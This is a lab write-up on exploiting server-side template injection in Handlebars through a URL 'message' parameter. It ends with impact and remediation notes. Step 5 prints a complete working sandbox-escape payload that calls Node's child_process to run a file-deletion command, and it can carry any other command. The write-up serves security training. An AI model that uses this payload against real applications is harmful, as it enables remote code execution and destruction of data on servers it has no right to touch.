


# Exploiting Server-Side Template Injection (SSTI) in Handlebars

## 📌 Summary

The application is vulnerable to **Server-Side Template Injection (SSTI)** because it directly passes raw user input from the `message` parameter into the template engine without proper validation. By forcing an error, we can identify that the website uses the **Handlebars** template engine. Using a publicly documented security research exploit, an attacker can bypass the template sandbox to execute arbitrary operating system commands and delete files from the server.

---

## 🧾 Description

When software uses template engines (like Handlebars, Mako, or FreeMarker) to dynamically display user data, it must handle user input safely. If the application takes user input and runs it directly inside a template, an attacker can inject template-specific characters to break out of the intended design.

In this lab, the application takes user input through a `message` parameter in the URL. By sending random special characters, the server throws an error message that explicitly mentions **Handlebars**. While Handlebars is generally sandboxed to prevent dangerous actions, known public exploits leverage built-in JavaScript features (like constructors and helper methods) to break out of the sandbox and achieve full code execution.

---

## 🔁 Steps to Reproduce

1. Browse the website and click on the first product to view its details. Notice that if the product is out of stock, the URL uses a `message` parameter to print a notification on the home page:

```text
GET /?message=Unfortunately this product is out of stock

```

2. Test the `message` parameter for Template Injection by submitting a "fuzz string" containing mixed special characters commonly used in different engines:

```text
${{<%[%'"}}%\

```

3. Submit the request and look at the page output. The server fails to process the input and displays a detailed error message explicitly mentioning **Handlebars**. This confirms the underlying template engine.
4. Search the web for public Handlebars sandbox escapes. A well-known exploit structure uses the built-in `{{#with}}` and `lookup` helpers to access the JavaScript `constructor` and run arbitrary system commands via Node.js utilities.
5. Modify the public exploit payload to run the required command (`rm /home/carlos/morale.txt`) using Node's child process library:

```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}

```

6. **URL-encode** the entire payload so the web server can read it correctly without breaking the URL structure. The encoded payload looks like this:

```text
wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74... 

```

7. Append this URL-encoded string directly to your unique lab link as the value of the `message` parameter and load the page:

```text
https://YOUR-LAB-ID.web-security-academy.net/?message=[ENCODED_PAYLOAD_HERE]

```

8. When the server processes the URL, the template engine executes our embedded Node.js payload, successfully deleting the file and solving the lab challenge.

---

## 📸 Proof of Concept (PoC)

1. Fuzzing the vulnerable `message` parameter to generate a template system error


2. Finding the specific template language leak (Handlebars) inside the application logs

3. Lab Solved



---

## 💥 Impact

* **Remote Code Execution (RCE):** The attacker bypasses standard web application boundaries and runs raw shell commands on the hosting server.
* **Complete System Compromise:** An attacker can inspect local file paths, steal production environmental keys, download database configurations, or install persistent backdoors.
* **Data Sabotage:** System-critical files can be intentionally deleted, corrupted, or altered, directly impacting server availability.

---

## 🛠️ Remediation

* **Context-Aware Sanitization:** Never accept raw template strings directly from query parameters. Run user data through structured text inputs that treat data strictly as literals rather than instructions.
* **Update Engine Versions:** Keep framework components updated. Modern distributions fix traditional prototype-pollution and sandbox-escape vulnerabilities.
* **Suppress Production Error Logs:** Disable verbose debugging info. Production errors should only show generalized messages to prevent attackers from footprinting backend engine brands.